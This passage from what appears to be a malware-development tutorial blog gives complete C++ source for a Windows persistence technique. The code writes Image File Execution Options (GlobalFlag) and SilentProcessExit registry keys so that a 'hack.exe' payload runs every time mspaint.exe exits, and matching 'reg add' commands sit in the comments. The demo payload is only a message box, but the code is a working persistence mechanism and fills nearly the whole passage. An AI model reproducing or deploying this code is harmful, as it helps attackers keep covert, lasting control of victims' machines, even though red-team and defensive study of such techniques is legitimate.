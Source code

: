 As you can see, as usually, I use "meow-meow" message box "malware" =^..^=    

Then, create persistence script for modify registry (`pers.cpp`):     

```cpp
/*
pers.cpp
windows persistence via IFEO (GlobalFlag)
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/10/malware-pers-10.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  DWORD gF = 512;
  DWORD rM = 1;

  // image file
  const char* img = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\mspaint.exe";

  // silent exit
  const char* silent = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\SilentProcessExit\\mspaint.exe";

  // evil app
  const char* exe = "Z:\\2022-09-10-malware-pers-10\\hack.exe";

  // GlobalFlag
  // LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\mspaint.exe", 0 , KEY_WRITE, &hkey);
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    // reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\mspaint.exe" /v GlobalFlag /t REG_DWORD /d 512
    RegSetValueEx(hkey, (LPCSTR)"GlobalFlag", 0, REG_DWORD, (const BYTE*)&gF, sizeof(gF));
    RegCloseKey(hkey);
  }

  // res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\SilentProcessExit\\mspaint.exe", 0 , KEY_WRITE, &hkey);
  res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)silent, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    // reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
    // reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "Z:\..\hack.exe"
    RegSetValueEx(hkey, (LPCSTR)"ReportingMode", 0, REG_DWORD, (const BYTE*)&rM, sizeof(rM));
    RegSetValueEx(hkey, (LPCSTR)"MonitorProcess", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

